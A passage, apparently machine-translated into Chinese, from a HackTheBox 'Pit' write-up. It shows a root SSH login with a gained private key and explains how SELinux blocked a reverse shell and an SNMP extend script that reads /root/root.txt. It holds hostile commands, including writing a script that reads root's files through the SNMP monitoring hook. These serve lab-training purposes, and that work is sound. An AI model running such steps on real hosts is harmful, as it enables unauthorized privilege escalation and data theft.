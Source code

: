                   total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       449Mi       3.0Gi       8.0Mi       394Mi       3.2Gi 
    ...[snip]...
    

SSH将以根身份使用匹配的私钥进行连接：

    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.241
    Web console: https://pit.htb:9090/ or https://10.10.10.241:9090/
    
    Last login: Mon May 10 11:42:46 2021
    [root@pit ~]# 
    

然后拿起那面旗帜：

    [root@pit ~]# cat root.txt
    a96b3445************************
    

## 超越根 - 塞利努克斯

### 背景

在解决过程中，我注意到 SeLinux 在盒子上，并阻止了我试图做的事情。SeLinux 不仅围绕文件访问，还围绕其他类型的访问（如套接字）提供了大量更精细的权限。它阻挡了网壳的反向外壳。它还阻止我使用 SNMP 脚本访问 。例如，创建以下脚本：`root.txt`

    [michelle@pit monitoring]$ echo "echo "root flag:"; cat /root/root.txt" > check_root.sh
    

运行它会产生以下两行：

    NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".9 = STRING: root flag:
    NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".10 = STRING: cat: /root/root.txt: Permission denied 
    

查看该文件，它在权限的末尾指示 SeLinux：`.`

    [root@pit monitoring]# ls -l /root/root.txt 
    -r--------. 1 root root 33 Sep 23 14:07 /root/root.txt
    

使用 with 将显示塞林克斯上下文：`-Z``ls`

    [root@pit ~]# ls -Z root.txt 
    unconfined_u:object_r:admin_home_t:s0 root.txt
    

所以属于这个角色。`root.txt``admin_home_t`

### 根.txt

SeLinux 可以在两种模式下运行 - 强制 （1） 和允许 （0）。 将返回正在运行的模式：`getenforce`

    [root@pit monitoring]# getenforce 
    Enforcing
    

强制实施将阻止特定活动，其中Permisive将仅记录它们，但让它们发生。

例如，如果我更改模式：
